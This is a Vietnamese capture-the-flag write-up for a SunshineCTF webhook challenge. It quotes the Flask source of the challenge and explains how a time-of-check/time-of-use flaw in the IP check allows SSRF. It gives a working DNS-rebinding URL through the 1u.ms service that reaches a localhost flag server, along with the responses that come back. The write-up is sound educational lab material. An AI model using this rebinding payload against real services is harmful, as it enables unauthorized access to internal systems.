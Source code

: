 # **Intergalactic Webhook Service**

https://maze-toy-02a.notion.site/image/attachment%3A6fbf2c7f-faf7-4fe7-8e49-c8d775439c4f%3Aimage.png?table=block&id=27deac4f-7306-8031-a105-caebb939168e&spaceId=f91178b4-3aaf-4d15-afb8-64f2dd401ec7&width=1050&userId=&cache=v2

Bài này có source nên có thể tham khảo source ở đây: [Writeup_SunshineCTF/src at main · TranDongA3/Writeup_SunshineCTF](https://github.com/TranDongA3/Writeup_SunshineCTF/tree/main/src)

Bài này thì có 2 chức năng chính sau:

https://maze-toy-02a.notion.site/image/attachment%3A2b282bb6-1ad3-432c-9cab-3840f0b8d534%3Aimage.png?table=block&id=27deac4f-7306-800f-b9f7-f1f1ae6493c1&spaceId=f91178b4-3aaf-4d15-afb8-64f2dd401ec7&width=1130&userId=&cache=v2

```
@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200
```

```python
@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500
```

Đăng ký webhook, và kích hoạt webhook id trả về từ đăng ký.

Ngoài ra còn có hàm phụ như là:

```python
def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None
```

Hàm này để check url thôi, hàm urlparse(url) dùng để tách các phần của url để kiểm tra tính hợp lệ , ip sẽ tiến hành lấy ip từ tên miền bằng hàm socket.gethostbyname(host)nếu mà thuộc những trường hợp kiểm tra như trên thì trả về False.

Nếu mà thành công thì trả về:

return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

Và có thể lấy id này để trigger đến URL . Ở đây mục tiêu flag của chúng ta đang nằm ở [localhost](http://localhost) :

```python
def load_flag():
    with open('flag.txt', 'r') as f:
        return f.read().strip()

FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()
```

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

Có một luồng được khởi tạo song song với chương trình chạy ở [localhost](http://localhost) cồng 5001, thực hiện function FlagHanlder, nếu nếu là /flag thì sẽ trả về nội dung của nó . Lỗi này sẽ thấy rõ luôn là SSRF cụ thể là dùng kỹ thuật DNS rebinding để khai thác.

Cơ bản về kỹ thuật đó chính là dùng một tên miền ban đầu phân giải sẽ được một địa chỉ ip public như 8.8.8.8 (hoặc khác) nhưng mà lần sau sẽ phân giải ra là 127.0.0.1 . Để hiện thực hóa kỹ thuật đó ta sẽ dùng một dịch vụ có sẵn là : http://1u.ms/

Ta thử : 

![image.png](attachment:118beaa9-1edb-4bb4-836d-74e7e8529576:image.png)

Quá hay đúng không. Cụ thể hơn sẽ là trường hợp này:

http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag

![image.png](attachment:7237a098-f506-4fa0-b4a8-bf7386fa4efb:image.png)

Sau khi đăng ký trả về như này:

`{"id":"2ce6a28c-f69c-4b59-9d75-38d306734406","status":"registered","url":"http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag"}`

Lấy id để trigger thì được:

`{"response":"sun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}","status":200,"url":"http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag"}`